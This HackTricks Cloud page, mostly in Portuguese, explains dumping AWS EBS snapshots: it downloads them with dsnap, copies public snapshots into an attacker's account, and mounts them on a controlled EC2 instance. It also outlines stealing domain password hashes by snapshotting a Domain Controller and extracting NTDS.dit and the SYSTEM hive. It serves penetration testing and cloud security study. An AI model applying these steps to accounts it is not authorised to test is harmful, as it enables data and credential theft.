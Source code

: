 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Verificando um snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** que `dsnap` não permitirá que você baixe snapshots públicos. Para contornar isso, você pode fazer uma cópia do snapshot em sua conta pessoal e baixar isso:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Para mais informações sobre esta técnica, consulte a pesquisa original em [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Você pode fazer isso com o Pacu usando o módulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Verificando um snapshot na AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Monte-o em uma VM EC2 sob seu controle** (tem que estar na mesma região que a cópia do backup):

Passo 1: Um novo volume do seu tamanho e tipo preferidos deve ser criado acessando EC2 –> Volumes.

Para poder realizar esta ação, siga estes comandos:

* Crie um volume EBS para anexar à instância EC2.
* Certifique-se de que o volume EBS e a instância estão na mesma zona.

Passo 2: A opção "anexar volume" deve ser selecionada clicando com o botão direito no volume criado.

Passo 3: A instância da caixa de texto da instância deve ser selecionada.

Para poder realizar esta ação, use o seguinte comando:

* Anexe o volume EBS.

Passo 4: Faça login na instância EC2 e liste os discos disponíveis usando o comando `lsblk`.

Passo 5: Verifique se o volume tem algum dado usando o comando `sudo file -s /dev/xvdf`.

Se a saída do comando acima mostrar "/dev/xvdf: data", isso significa que o volume está vazio.

Passo 6: Formate o volume para o sistema de arquivos ext4 usando o comando `sudo mkfs -t ext4 /dev/xvdf`. Alternativamente, você também pode usar o formato xfs usando o comando `sudo mkfs -t xfs /dev/xvdf`. Por favor, note que você deve usar ext4 ou xfs.

Passo 7: Crie um diretório de sua escolha para montar o novo volume ext4. Por exemplo, você pode usar o nome "newvolume".

Para poder realizar esta ação, use o comando `sudo mkdir /newvolume`.

Passo 8: Monte o volume no diretório "newvolume" usando o comando `sudo mount /dev/xvdf /newvolume/`.

Passo 9: Mude o diretório para o diretório "newvolume" e verifique o espaço em disco para validar a montagem do volume.

Para poder realizar esta ação, use os seguintes comandos:

* Mude o diretório para `/newvolume`.
* Verifique o espaço em disco usando o comando `df -h .`. A saída deste comando deve mostrar o espaço livre no diretório "newvolume".

Você pode fazer isso com Pacu usando o módulo `ebs__explore_snapshots`.

## Verificando um snapshot na AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Qualquer usuário da AWS que possua a permissão **`EC2:CreateSnapshot`** pode roubar os hashes de todos os usuários do domínio criando um **snapshot do Controlador de Domínio**, montando-o em uma instância que eles controlam e **exportando o arquivo NTDS.dit e o hive de registro SYSTEM** para uso com o projeto secretsdump do Impacket.

Você pode usar esta ferramenta para automatizar o ataque: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou você poderia usar uma das técnicas anteriores após criar um snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
